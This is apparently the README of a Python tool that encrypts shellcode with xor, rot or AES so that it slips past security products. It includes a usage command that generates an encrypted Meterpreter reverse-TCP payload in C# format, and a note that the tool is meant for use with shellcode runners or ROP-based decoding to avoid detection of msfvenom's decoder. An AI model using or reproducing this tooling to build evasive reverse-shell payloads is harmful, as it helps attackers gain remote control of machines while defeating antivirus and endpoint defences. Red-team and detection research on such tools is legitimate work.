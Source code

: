 # py-shellcodeEnc
tool to encrypt(xor,rot,aes) shellcode

USAGE:
```
python senc.py -p windows/meterpreter/reverse_tcp -lhost eth0 -lport 443 -e rot -k 254 -f csharp
```


TODO - print cssharp decrypt function.

That is mainly for:
msfvenom builtin decoder on encoded shellcode is usually a red flag for any security solution.
1 - using with a shellcode runner with decryption routine implemented.
2 - DEP with ROP decode and etc..
